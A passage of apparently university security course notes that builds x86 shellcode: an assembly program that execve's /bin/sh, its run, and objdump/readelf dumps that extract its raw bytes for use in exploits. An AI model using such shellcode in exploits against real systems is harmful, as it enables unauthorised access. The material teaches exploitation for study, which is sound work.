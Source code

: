 Tracing through this program, you see that we use the same trick that
our C program did to build the `args` array. If we place the address of
the `/bin/sh` string on the bottom of the stack, followed by a null, the
address in `esp` is the same as an `args` array in the C program. The
remainder register setup is the same as before for a system call, and
once we compile and run it, we get a shell.

``` example
aviv@si485h-base:~/git/class-demos/classes/09$ make
nasm -g -f elf -o shell.o shell.asm
ld  -o shell shell.o
aviv@si485h-base:~/git/class-demos/classes/09$ ./shell 
$ echo "I have a shell" 
I have a shell
```

# Making Shell Code Exploit Ready

## Shell code as bytes

The next thing we want to do is represent the program we wrote in raw
bytes. To do that, let's look at the `objdump` output:

``` example
$ objdump -d -M intel shell

shell:     file format elf32-i386


Disassembly of section .text:

08048080 <_start>:
8048080:6a 00                push   0x0
8048082:68 a8 90 04 08       push   0x80490a8
8048087:bb a8 90 04 08       mov    ebx,0x80490a8
804808c:89 e1                mov    ecx,esp
804808e:ba 00 00 00 00       mov    edx,0x0
8048093:b8 0b 00 00 00       mov    eax,0xb
8048098:cd 80                int    0x80
804809a:bb 00 00 00 00       mov    ebx,0x0
804809f:b8 01 00 00 00       mov    eax,0x1
80480a4:cd 80                int    0x80
user@si485H-base:demo$ objdump -d -M intel execve_fixedref
```

The byte valus for the instructions are clearly listed, but we want the
bytes and just the bytes. Fortunately, `readelf` allows us to look at
particular segments in binary.

``` example
$ readelf -x .text shell
Hex dump of section '.text':
  0x08048080 6a0068a8 900408bb a8900408 89e1ba00 j.h.............
  0x08048090 000000b8 0b000000 cd80bb00 000000b8 ................
  0x080480a0 01000000 cd80                       ......
```
